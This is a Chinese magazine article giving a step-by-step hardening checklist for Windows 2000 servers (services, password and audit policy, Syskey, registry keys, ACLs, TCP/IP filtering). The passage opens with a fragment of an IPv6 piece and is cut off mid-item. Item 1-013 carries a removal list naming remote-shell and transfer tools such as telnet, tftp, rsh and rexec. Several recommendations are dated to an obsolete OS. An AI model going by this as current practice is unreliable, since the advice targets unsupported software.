

图9

> 后记：IPv6 增加了许多新的特性，其中高性能、安全性和稳定性是计算机系统永恒的主题，也是我们不懈的追求。最后，我希望这些对决策者在学习研究方面能有所帮助，使大家能够从 IPv4 顺利过渡到 IPv6。



## Windows 2000

**系统加固不求人**

刘流：据国内一些网络安全研究机构的资料，国内大部分的 ISP、ICP、IT 公司、政府、教育和科研机构等都没有对网络安全投入必要的人力和物力；很多重要站点的管理员都是 Internet 的新手，一些操作系统在那些有经验的系统管理员的配置下尚且有缺陷，在这些新手的操作中就更是漏洞百出。很多服务器至少有 3 种以上的漏洞可以使入侵者获取系统的最高控制权。在众多的网络入侵事件中，很大一部分原因是管理员本身没有做好服务器安全的合理配置。本专题从 Windows 2000 实战角度出发，特约安全公司技术人员为你具体详细讲解安全系统的加固过程，相信这无论是对个人用户还是对于国内大多数管理员来说，都是非常有意义的。

文／图 腾红春

Windows 2000 系列是微软在当前网络操作系统市场上的主流产品，虽然现在有了继承的 Windows 2003，但 Windows 2000 仍然是当前最主要采用的商用系统之一。它包括用作服务器的 Server 版、Advanced Server 版和 DataCenter Server 版；以及用于个人工作站的 Professional 版。无论对于企业还是个人使用来说，Windows 2000 都提供了完整的产品线，在稳定性上也大大超越了前代的 Windows 操作系统，达到了相当的高度。Windows 2000 系列产品在网络时代的操作系统领域被广泛使用，影响范围很大。

在安全性上，采用 NTFS（NT 文件系统）的 Windows 2000 拥有不亚于 UNIX 系统的严格访问控制权限，文件拥有类似 UNIX 的属性，可由管理员制定权限来执行。为了更安全地在域内工作，Windows 2000 引入了 Kerberos V5 登录认证标准，也兼容对应 UNIX 服务环境的网络认证。并提供了智能卡等技术及文件加密等功能，同时支持日志审计、文件保护、网络层安全性（IPSec）等。

微软的 Windows 历来广受怀疑，媒体总是对 Windows 系列的操作系统安全性加以指责。对 Windows 2000 也是如此。实际上，微软的安全性问题主要来自于 3 点：

- 默认安装状态下更加考虑兼容性，即与过去微软操作系统网络工作模式的兼容要求；
- 大量内置组件不可靠的安全性；
- 广泛的装机量。

其他“安全”的操作系统在第一点上比微软出色，另外符合开放源代码要求的系统可以更快修补漏洞。至于第三点，微软因使用范围广，一旦出现未能及时弥补的漏洞，就可能导致大范围受损。微软自 Windows 2000 以后已大大改进了安全性。

> 更多考虑到软件进化的未来方向，掌握在大型企业手中的具有较高市场占有率的操作系统并非有益之举。笔者对于开源运动深具好评，也认为它将是操作系统行业未来的指针；但在当前国内计算机系统应用状况下，用户自由配置和使用系统的能力仍有限。作为厂商，微软在 Windows 2000 及后继 NT 内核系统上投入了极大精力，安全性有很大进步，但仍需要用户合理配置，才能得到更大安全性。

网络应用环境是开放而危险的，计算机紧急响应小组协调中心（CERT-CC）报告的安全事故数量近年直线上升，现在更加严重得多。可以肯定，在所有事故中仍有相当多的部分未能报告给 CERT-CC。要保障我们的系统在网络应用环境中的安全，需要对系统进行合理的安全配置以消弭可能存在的缺陷。我们一般通过通常称为“加固”(Hardening) 的安全配置过程来保障主机安全。“加固”的终极目标是：配置并构建一个安全的“堡垒主机”(Bastion Host) 系统。“堡垒主机”这个词是有专门含义的概念，最初由美国人 Marcus J. Ranum 在《Thinking About Firewalls V2.0: Beyond Perimeter Security》一书中提出。…在 Windows 2000 当中，通过谨慎合理的配置，我们可以获得足够的安全性，达到“堡垒主机”的安全高度。

## 加固过程

构建一个“堡垒主机”的过程建议从安装一个新系统开始，如果你可以保证满足“安装一个最小化的操作系统和一个最新的服务包”的要求，也可以进行下去。安装配置前后都有许多注意事项，我们将详细列举出来。希望读者可以更容易地应用到自己的 Windows 2000 中。“加固”过程为保证安全性，通常只使用系统提供的工具来进行，不需要其他第三方工具。…

- 安装一个最小化的操作系统和一个最新的服务包；
- 安装你要在主机上运行的应用程序并配置；
- 重新申请服务包，安装最新的安全补丁；
- 删除或者禁用操作系统中不必要的组件和服务；
- 加固操作系统的其他部分；
- 为文件和其他对象设置严格的访问控制权限。

| 项目 | 内容 |
|---|---|
| 项目编号 | 1-001 |
| 项目名称 | 安装最小化操作系统注意事项 |
| 项目描述 | 在加固项目开始时必须确保的事项，这是加固得以进行的安全基础 |
| 操作步骤 | 1）从一个干净的系统开始；2）保证安装软件来源完整可信；3）安装配置过程中不要连接公共网络；4）不要在主机上安装多系统启动；5）尽量安装 Windows 2000 美国英语版本；6）仅使用 NTFS 分区并启用相应访问控制；7）只安装 TCP/IP 协议；8）安装程序时不要选择额外不必要的服务。9）如果安装了服务器版本的 Windows 2000，要把它配置成“Standalone（独立服务器）”模式。为了安全方面的原因，堡垒主机最好不要参与域环境。 |



**备注**：第 5 项并不强制使用，确保你的系统遵守以上规则，这是良好的开始。

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-002 |
| 项目名称 | 安装最新的服务包补丁程序 |
| 项目描述 | 给你的操作系统按照不同语种选择补丁包程序 Service Pack。Windows 2000 最新的 Service Pack 为 SP4，Service Pack 4 的大小约为 120 多兆。 |
| 操作步骤 | 从可信的渠道获得微软服务包安装程序的发布，如从微软站点下载并安装。 |
| 备注 | 也有其他渠道可提供 SP 包，但要小心确认来源正当且无修改。 |

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-003 |
| 项目名称 | 安装和配置应用程序及服务程序 |
| 项目描述 | 在你的系统上安装配置正常使用的应用程序（包括更新你的 IE 浏览器版本），在系统上安装配置你选择好的用来提供网络服务的程序（如微软使用的 Web 服务器 IIS）。 |
| 操作步骤 | 1. 不要安装任何多余的程序。堡垒主机一般用作提供网络服务，通常不是个人工作站。2. 小心安装采用的服务和应用程序，尽量选择最新的安装版本。3. 通常不要在堡垒主机上运行系统提供的应用程序访问网络。4. 为安全起见，甚至建议将系统附件中的所有应用程序（除 Notepad 和 WordPad 等文本编辑器）删除。 |
| 备注 | 了解你要安装的程序是否存在已知缺陷，可以咨询安全专家意见。IE、Outlook、Windows Media Player 等程序可能含有漏洞；在高安全要求环境中，不要安装 MS-Office 或开发工具；可执行程序越少越好。 |

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-004 |
| 项目名称 | 重新申请服务包，安装最新的安全补丁 |
| 项目描述 | 微软提供了 Windows Update 程序（在你安装后的“开始”菜单里的程序），可以直接连接到微软下载站点获取更新的 Hotfix（即大型服务包之后发布的安全补丁程序，通常用来弥补后期发现的安全漏洞）。 |
| 操作步骤 | 如图2所示，操作“Windows Update”程序打开微软升级站点页面并升级。 |
| 备注 | 通常必须安装“关键更新和 Service Pack”选项中的更新。通常第一次进入该界面要求安装“Microsoft Update”程序；如未能正常进入该界面，可修改系统的 DNS 服务器设置。 |



> 图2：按照提示一步步下载安装最新的安全补丁

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-005 |
| 项目名称 | 配置操作系统提供的服务 |
| 项目描述 | 禁用操作系统提供的不必要服务（以 Windows Web 服务器采用 IIS 为例）。 |
| 操作步骤 | 见下方列表 |
| 备注 | 具体每个服务的作用请参考微软的附加说明内容或咨询安全专家。 |

- 可设置为自动启动的服务（可参考此内容推广到其他设置）：
  - Event Log（事件日志记录需要）
  - Logical Disk Manager（LDM）（磁盘管理需要）
  - Network Connections（网络管理需要）
  - Plug and Play（硬件设备即插即用需要）
  - Protected Storage（保护性存储需要）
  - Remote Procedure Call（RPC）（系统进程间调用需要）
  - Security Accounts Manager（SAM）（账户数据管理需要）
  - Windows Management Instrumentation（WMI）（管理控制台需要）
  - WMI Driver Extensions（同上）
- 可设置为手动启动的服务（一般根据用途决定）：
  - DNS Client（仅当需要 DNS 时启用）
  - RunAs Service（仅当需要 runas 命令时启用）
  - IIS Admin Service（微软 Web 服务需要）
  - Logical Disk Manager Administrative Service（磁盘管理需要）
  - NT LM Security Support Provider（微软 Web 服务需要）
  - World Wide Web Publishing Service（微软 Web 服务需要）
- 禁用其他服务（对有其他要求的系统服务可视情况开启；但原则上应尽量避免使用微软提供的系统服务，可参考安全专家意见采用其他替代方案）。

> 注意：关闭一切不必要的服务。  
> 如对系统可能造成的影响不太了解，可以通过对一台相同配置的机器做关闭/启动试验来验证。

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-006 |
| 项目名称 | 配置账户策略 |
| 项目描述 | 如图3、图4，分别在“管理工具”中打开“本地安全设置”，调整“密码策略”和“账户锁定策略”。 |




- 推荐的密码策略为：
  - “密码必须符合复杂性要求”——已启用（必须启用）
  - “密码长度最小值”——8 个字符（或更高）
- 推荐的账户锁定策略为：
  - “账户锁定阈值”——3 次（或略高）无效登录
  - “账户锁定时间”——30 分钟（默认，可根据需要更改）
  - “复位账户锁定计数器”——30 分钟（同上）之后

密码复杂性指的是密码中要包含字母、数字和无字符（特殊符号）等内容。对应安全性要求较高的场景，笔者推荐 12 位以上的密码长度。  
注：密码应该经常性（30 天或更短）更换，特别在有管理员以外的人知道时。

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-007 |
| 项目名称 | 账户管理注意事项 |
| 项目描述 | 加固主机时应当注意系统账户的管理。 |

- 重新命名管理员账号：这是为了防止针对 “Administrator” 账号的密码猜测行为。
- 禁用 “Guest” 账号。Windows 2000 默认为禁用，但有时仍需要检查 “Guest” 组是否存在用户。
- 检查系统中存在的账号状况。审核不必要的账号和组，审核账号隶属组权限和用户权限并定期记录；对于长时间未登录的账号应查询原因，对于因员工离职等原因废弃的账号要立即删除，特别对于有管理员权限的用户。
- 注意通常的好习惯是使用其他账号来管理系统，只在必要管理员权限时才采用管理员账号。

|  | 内容 |
|---|---|
| 5 | 建立新用户的权限应限定于其 User 组或 Guest 组权限，不要授予 Power Users 组用户。对于任何特定的操作，需要新建一个特定的组并赋予其权限来执行。 |
| 备注 | 关于 DACL（任意访问控制）权限的控制可主要参见 1-012。 |

## 1-008 配置日志审核

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-008 |
| 项目名称 | 配置日志审核 |
| 项目描述 | 微软操作系统的日志审核默认是关闭的，必须手动开启。 |
| 说明 | 如图5、图6所示，分别打开“管理工具→本地安全策略→本地策略→审核策略”和“管理工具→事件查看器”开启和调整日志审核。 |

- 推荐的审核策略为：
  - 审核策略更改：成功 + 失败
  - 审核登录事件：成功 + 失败
  - 审核对象访问：失败
  - 审核目录服务访问：失败
  - 审核特权使用：失败
  - 审核系统事件：成功 + 失败
  - 审核账户登录事件：成功 + 失败
  - 审核账户管理：成功 + 失败

共有 3 项日志需要设置属性：应用程序日志、安全日志、系统日志。其推荐的日志属性设置为：最大日志文件大小 512000KB（视乎访问量设置，偏大更好）；当达到最大的日志尺寸时，不改写事件（手动清除更安全）。

根据不同的应用选择日志记录项目和大小，如为 Web 网站，还需要设置 Web 访问日志。在采用微软 IIS 时，日志项目另外需要在“IIS 管理器”中调整。如果是网络上的应用服务器，日志文件可能会很大，如每天有上千万次点击的门户站点网站，其每天的信息可能有数百万KB大小；日志记录文件大小可以参照用户访问量作适当调整；如要保存完整的日志记录以供复查，需要建立专门的审核策略，相关问题可以咨询安全专家。

## 1-009 禁用 NetBIOS 接口

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-009 |
| 项目名称 | 禁用NetBIOS接口 |
| 项目描述 | NetBIOS 接口用来在两台或两台以上运行 NetBIOS 应用程序的计算机之间解析名字、建立连接和支持可靠数据传输。它的存在是为了兼容以前的通用 Internet 文件系统/服务消息块协议（CIFS/SMB）；该协议会导致计算机信息泄漏以至于“空会话”建立的漏洞，是入侵 Windows 2000 的经典漏洞。 |
| 操作步骤 | 1）如图8，在网络的连接属性中禁用“Microsoft 网络的文件和打印机共享”；2）选中图8中“Internet 协议（TCP/IP）→属性→高级”选项，会弹出图9所示的设置，选中“禁用 TCP/IP 上的 NetBIOS”；3）可通过设置注册表（见 1-010 的 01 项）的方法禁用。 |
| 备注 | 为稳妥起见，还需要在后面实施以上第3部分提到的内容。如1中图“Microsoft 网络客户端”包含 IIS 的 NT/LanMan Security Support Provider 组件（见 1-005 的服务配置），是安装 IIS 所必须的，如未安装 IIS，可以去除选定。 |

## 1-010 保护系统账号数据库

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-010 |
| 项目名称 | 保护系统账号数据库 |
| 项目描述 | Windows 2000 默认用来储存用户账号信息包括密码的 SAM（Security Accounts Manager，见 1-005 中服务部分）数据库，其中的密码部分是本地账号密码简单加密后的结果，采用专门工具可以比较容易地破解；Windows 2000 提供了可对密码信息实施加强保护的工具“Syskey”，可对密码作 128 位再加密。 |
| 操作步骤 | 1）如图10，直接在“开始→运行”中执行“syskey”指令，选择“更新（Update）”出现图11，这里出现选择项；A）选择“密码启动”需要手动指定一个新密码（为强固起见，推荐这个密码的值在 12~128 位之间），作为系统启动的密码。系统将使用这个密码的 128 位散列值来加密 SAM 数据库中的密码，则每次启动系统时需要手动输入这个新指定的密码。B）选择“系统产生的密码”，系统随机生成一个 128 位值的密钥对 SAM 数据库加密，则“或者在软盘上保存这份启动密码”（需要在系统启动时插入这个软盘）；或者“在本机上保存启动密码”（如图解释）。 |

- 使用 `syskey` 后系统 SAM 将无法逆转到之前状况。
- 为防止原来密码泄漏，还需从 `WINNT/REPAIR` 目录中删除 `SAM` 文件。

## 1-011 注册表安全设置

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-011 |
| 项目名称 | 注册表安全设置 |
| 项目描述 | Windows 2000 的注册表相关项目包括许多安全设置，本部分的内容将作详细解释。 |

- 对应“对匿名连接的额外限制”——没有显式匿名权限就无法访问；在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` 下修改 `restrictanonymous` 值为 `2`。
- 对应“关闭默认的根目录和管理共享”——去除 Windows 2000 安装后的默认共享；在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters` 下添加 DWORD（双字）值：`autosharewks=0` 以及 `autoshareserver=0`。
- 对应“禁止 Guest 用户访问日志”——取消来宾账号访问日志权限；分别将 `HKEY_LOCAL_MACHINE\CurrentControlSet\Services\EventLog` 下 `Application`、`Security`、`System` 的 `RestrictGuestAccess` 设为 `1`。
- 对应“禁止显示上次登录的用户名”——防止在登录界面泄漏账号名；在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下修改 `DontDisplayLastUserName=1`。
- 对应“禁用 8.3 文件名创建”——取消兼容旧式命名带来的风险；在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem` 中修改 `NtfsDisable8dot3NameCreation=1`。
- 对应“禁用无用的子系统”——关闭 `DOS`、`Win16`、`OS/2`、`POSIX` 等可选子系统以减少攻击面；涉及 `Session Manager\SubSystems` 与 `WOW` 等相关项的清理。
- 保护系统不受一定拒绝服务攻击：防备 SYN（Synchronize Sequence Numbers）同步序列数攻击，在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` 下添加/修改：`SynAttackProtect=2`、`TcpMaxHalfOpen=100`、`TcpMaxPortsExhausted=5`、`TcpMaxConnectResponseRetransmissions=3`、`KeepAliveTime=300000`（ms）等。并建议设置 `EnablePMTUDiscovery=0`、`DisableIPSourceRouting=2`、`EnableICMPRedirect=0` 以降低被利用风险。
- 禁用光盘自动启动：在 `HKEY_USERS\Default\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下设置 `NoDriveTypeAutoRun=149`。
- 限制本地登录用户访问软盘/CD-ROM：修改 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下 `allocatefloppies=1`，并将 `allocatecdroms=1`。
- 关机时清理虚拟内存页面交换文件：修改 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management` 下 `ClearPageFileAtShutdown=1`。

相关注册表修改知识请参考相关文档。文中所述 0/1（含 0 在内）的 DWORD 值通常按十进制理解，实际使用时需正确设置。

## 1-012 设置特权和权利

| 项目 | 内容 |
|---|---|
| 项目编号 | 1-012 |
| 项目名称 | 设置特权和权利 |
| 项目描述 | Windows 2000 提供对用户权利作设定的安全机制，可定义特定用户在操作系统中的可操作范围。 |
| 操作步骤 | 如图12，在“控制面板 > 管理工具 > 本地安全设置”中对应“用户权利指派”部分设置列表。1）管理员组（Administrators）可被授权多项权利（如更改系统时间、创建页面文件、装载和卸载设备驱动程序、管理审核和安全日志、配置单一进程、配置系统性能、关闭系统、取得文件或对象所有权等）；2）备份操作员组（Backup Operators）可被授权备份文件和目录等，还原文件和目录（如果不想让备份操作管理员有还原文件和目录的权利，可以创建一个新的用户组）；3）用户组（Users）可以被授权的权利包括：在本地登录（默认）；4）将有关 Everyone 组的权利删除；如果已经填写了“007 中的账号管理事项 5”，还可以将有关 Power Users 组的内容删除；5）其他：不再授予其他任何权利。除非你的应用程序有特殊要求，你必须取消其他所有默认情况下的权利设定。 |

> 备注：如果你使用了 IIS 来运行一个没有用户身份验证的网站，则必须保有 IUSR_COMPUTERNAME 和 IWAM_COMPUTERNAME 账号从网络访问此计算机、在本地登录以及“作为批处理作业登录”的权利。

## 1-013 设置访问控制（ACL）的文件权限

| 项目 | 内容 |
|---|---|
| 项目编号 | 1-013 |
| 项目名称 | 设置访问控制（ACL）的文件权限 |
| 项目描述 | 在使用 NTFS 文件系统的基础盘重划分区与文件访问条件，加强 Windows 2000 默认安装下的访问权限，构建一个更加安全的主机。 |
| 操作步骤 | 1）取消默认安装时 Everyone 组拥有的对所有磁盘的完全控制权限，在“我的电脑”中逐盘进入属性→“安全”页，删除 Everyone，添加本地管理员账号（或 Administrators），在权限中设为“完全控制”，并尽量不要在根目录添加其他用户权限。2）取消系统文件保护功能：清理缓存与备份目录（如 `WINNT\DRIVER CACHE`、`ServicePackFiles` 等），必要时执行 `SFC /PURGECACHE`、`SFC /CACHESIZE=0` 后重启。3）对应“注册表安全设置（见 1-011）”中的项目；在 `WINNT\SYSTEM32` 目录保留必要系统文件，清理不必要服务相关文件。相关的文件“clipsrv.exe、llsrv.exe、lmrepl.exe、netdde.exe、spoolss.exe、tapisrv.exe、tcpsvcs.exe、netbios.sys、netbt.sys、rdr.sys、srv.sys”。（III）还有在同一目录下的不必要的可执行文件“debug.exe、edit.com、edlin.exe、finger.exe、ftp.exe、nbtstat.exe、qbasic.exe、rcp.exe、rexec.exe、rsh.exe、secfixup.exe、telnet.exe、tftp.exe”。（IV）包括在同一目录下的部分管理工具，如“arp.exe、at.exe、cacls.exe、cmd.exe、ipconfig.exe、net.exe、net1.exe、netstat.exe、nslookup.exe、ntbackup.exe、ping.exe、rdisk.exe、regedit.exe、regedt32.exe、route.exe、runonce.exe、syskey.exe、tracert.exe、winmsd.exe、xcopy.exe”，或者已经安装了的 cscript.exe、wscript.exe 等可执行程序。4）禁用系统中无用的和潜藏危险的组件。如 3 中所述的文件和可执行程序，可以将它们删除（如一、二、III），或者移动到一个新建的目录中（如 IV）。新建立一个用户组并将新建目录的权限设定为唯一只由该用户组完全控制，新建一个用户加入此用户组（注意不要将管理员用户加入该组）。当你准备使用这些程序时以该用户权限登录。还可建立一个只有这个用户控制的分区并设定只读属性，然后将文件夹移动到该分区保存。其他还可以采用例如给管理工具文件夹打包压缩或加密的手段，确保只有指定的用户可以访问和使用它们。更加安全的设置是在系统中完全删除上述文件，在需要管理时使用另外的拷贝。 |

## 1-014 使用 Windows 2000 文件加密功能

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-014 |
| 项目名称 | 使用Windows 2000文件加密功能 |
| 项目描述 | Windows 2000 中包含的加密系统能够给磁盘、文件夹、文件加上一层安全保护，这个功能对真正使用的用户是透明的，使用加密的用户可以直接以正确的用户身份登录后对文件夹任意操作，仿佛没有加密；而对不同的用户其内容则是加密的。这样无论别人是直接拷贝你的文件，还是把你的硬盘挂到别的机器上都无法读取里面的数据。 |
| 操作步骤 | 如图13，直接在文件与文件夹上右键弹出“属性”对话框，在“常规”项选择“高级”，选中“加密内容以便保护数据”，确定后退出；在最后确定时如果是应用在文件夹上，系统会提示是否包括文件夹中全部的文件，推荐对整个文件夹包括内容的文件加密，而不仅仅是单个的文件。 |
| 备注 | 注意，Windows 2000 文件加密并不能防止文件被相应权限的用户删除。为了资料数据的安全，最好的办法还是常做备份。另外，本机的管理员是文件加密默认的数据恢复代理，他可以阅读和在发生故障时恢复你加密的内容。对应文件加密技术尚有成熟的第三方软件可供采用，详情请咨询安全专家。 |

## 1-015 不记录系统失败的调试信息

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-015 |
| 项目名称 | 不记录系统失败的调试信息 |
| 项目描述 | 系统失败的调试信息存储在内存转储文件中，当系统崩溃时可以为除错提供信息；不过转储文件的存在还会泄漏其他关键信息，例如应用程序的密码。 |
| 操作步骤 | 如图14，在“我的电脑”上点击右键，弹出“属性”；在“高级”页选中“启动和故障恢复”，在“写入调试信息”中选择“无”。 |

## 1-016 配置 TCP/IP 筛选

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-016 |
| 项目名称 | 配置TCP/IP筛选 |
| 项目描述 | Windows 2000 提供了一定的网络流量过滤功能来保障 TCP/IP 安全，但需要手动配置。 |
| 操作步骤 | 如图15，选择“网络与拨号连接→连接到外部网络的网卡选项的属性→Internet 协议（TCP/IP）→属性→高级→选项”；点选“TCP/IP 筛选→属性”进行设置，如图16所示。 |
| 备注 | Windows 2000 提供的 TCP/IP 筛选无法过滤回包流量和向外的 TCP 连接应答。 |

在弹出窗口作如上设定。这是利用 Windows 2000 提供的 TCP/IP 安全机制对外部连接进行过滤。这里是一个 Web 服务器的例子：它只允许 80 端口的 TCP 流量通过，对其他端口流量的进入默认拒绝。

## 1-017 禁止从光盘或软盘启动

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-017 |
| 项目名称 | 禁止从光盘或软盘启动 |
| 项目描述 | 为了防止恶意用户利用微软的光盘自动启动（AutoRun），执行非法文件和恶意访问系统。 |
| 操作步骤 | 1）从 BIOS 设置中禁用从光盘或软盘启动，并设置 BIOS 密码防止恶意修改；2）从注册表选项中禁用光盘自动启动（见 1-011 中第 8 项）。 |
| 备注 | 设置 BIOS 请参考对应主板硬件说明书。 |

## 1-018 使用一个有密码的屏保

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-018 |
